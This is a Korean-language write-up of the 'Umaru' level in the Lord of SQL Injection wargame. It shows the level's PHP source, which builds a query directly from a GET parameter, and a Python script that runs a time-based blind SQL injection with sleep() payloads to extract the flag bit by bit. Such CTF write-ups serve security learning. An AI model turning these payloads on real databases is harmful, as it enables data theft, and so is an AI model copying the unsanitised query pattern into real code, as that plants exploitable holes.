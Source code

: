# **Umaru**
## 1. 문제의도
Error based Blind SQLi

----
## 2. 코드
```php
  <?php
    include "./config.php";
    login_chk();
    dbconnect();

    function reset_flag(){
      $new_flag = substr(md5(rand(10000000,99999999)."qwer".rand(10000000,99999999)."asdf".rand(10000000,99999999)),8,16);
      $chk = @mysql_fetch_array(mysql_query("select id from prob_umaru where id='{$_SESSION[los_id]}'"));
      if(!$chk[id]) mysql_query("insert into prob_umaru values('{$_SESSION[los_id]}','{$new_flag}')");
      else mysql_query("update prob_umaru set flag='{$new_flag}' where id='{$_SESSION[los_id]}'");
      echo "reset ok";
      highlight_file(__FILE__);
      exit();
    }

    if(!$_GET[flag]){ highlight_file(__FILE__); exit; }

    if(preg_match('/prob|_|\./i', $_GET[flag])) exit("No Hack ~_~");
    if(preg_match('/id|where|order|limit|,/i', $_GET[flag])) exit("HeHe");
    if(strlen($_GET[flag])>100) exit("HeHe");

    $realflag = @mysql_fetch_array(mysql_query("select flag from prob_umaru where id='{$_SESSION[los_id]}'"));

    @mysql_query("create temporary table prob_umaru_temp as select * from prob_umaru where id='{$_SESSION[los_id]}'");
    @mysql_query("update prob_umaru_temp set flag={$_GET[flag]}");

    $tempflag = @mysql_fetch_array(mysql_query("select flag from prob_umaru_temp"));
    if((!$realflag[flag]) || ($realflag[flag] != $tempflag[flag])) reset_flag();

    if($realflag[flag] === $_GET[flag]) solve("umaru");
  ?>
```
----

## 오랜만의 분석

일단 문제의 내용을 보고서 요약해 보자면은 만약에 flag GET parameter를 주지 않으면 그냥 파일을 보여주고 끝내고 필터링을 시작한다.  

그리고 **100** 이상의 공격쿼리는 불가능하고 **id where order limit ,** 은 사용할 수 없다.  

그리고 realflag에 진짜 플래그를 담아 놓은 다음에 임시 테이블을 만든다음에 flag를 내가 넣어준 값으로 설정한다.  

그리고 그값을 다시 꺼내어 tempflag에 담는다.  
그리고 tempflag와 realflag가 서로 다르면 reset_flag 함수로 flag를 초기화 하고 같다면 클리어다!

### 1. 통과 조건

이 문제에서는 error를 보여주지도 않고서 그냥 flag를 reset 해버린다 ㅠ..
flag를 얻어 내는 것이 목표다.

----
## 3. Solution

이번 문제에서는 sleep을 필터링 하지 않았다!!
time based sqli 를 해볼 차례인 듯 하다.

### My Answers :

옛날에는 한 십 몇분 정도 걸렸지만 이제는 bin을 이용한 빠른 전개를 해보자.
일단 무조건 에러는 발생시켜서 reset 를 막고 특정 조건일 때만 time sleep을 해서 blind sqli를 해보자  

```python
#-*- coding: utf-8 -*-
from time import *
from web import *

url = "http://los.eagle-jump.org/umaru_6f977f0504e56eeb72967f35eadbfdf5.php?flag={}"

start_t = 0
end_t = 0

# get length
length = 0
inject_url = "sleep((length(flag)={})*2)+1-~0#"

for i in range(10000):
    start_t = time()
    req = getRequest(url, inject_url.format(i), show=False)
    page = getPage(req)
    end_t = time()
    if end_t - start_t > 2:
        print "Length :", i
        length = i
        break

# set Char length
inject_url = "sleep((length(bin(ascii(substr(flag from {} for 1))))={})*2)+1-~0#"
chr_length = []

for i in range(1,length+1):
    for j in range(1,100):
        start_t = time()
        req = getRequest(url, inject_url.format(i,j),show=False)
        page = getPage(req)
        end_t = time()
        if end_t - start_t > 2:
            chr_length.append(j)
            print chr_length
            break

print "Check bit length :",chr_length

# get password : brute forcing : for admin
password = []
inject_url = "sleep((substr(bin(ord(substr(flag from {} for 1))) from {} for 1)=1)*2)+1-~0#"

for i in range(1,length+1):
    tmp = ""
    for j in range(1, chr_length[i-1]+1):
        start_t = time()
        req = getRequest(url, inject_url.format(i,j), show=False)
        page = getPage(req)
        end_t = time()
        if end_t - start_t > 2: tmp += "1"
        else: tmp += "0"
        print tmp

    password.append(chr(int(tmp,2)))
    print password

print "Password :","".join(password)
```

그러면 해당 flag가 안뇽 하면서 뜬다.
그러면 하나도 틀리지 않고 그 값을 복사해서 넣어주면 된다.  
틀리면... 다시 1,2분 투자해야 한다(reset)  

그렇게 2개월 전인가 3개월 전인가에 다 풀었던 LOS writeup 작성을 마쳤다TT. :)

**Lastly, There can be many answers**  

**[Go to see other solutions](https://github.com/moreal/WriteUp/blob/master/Wargame/Lord%20of%20SQL%20Injection/00.%20ReadMe.md)**
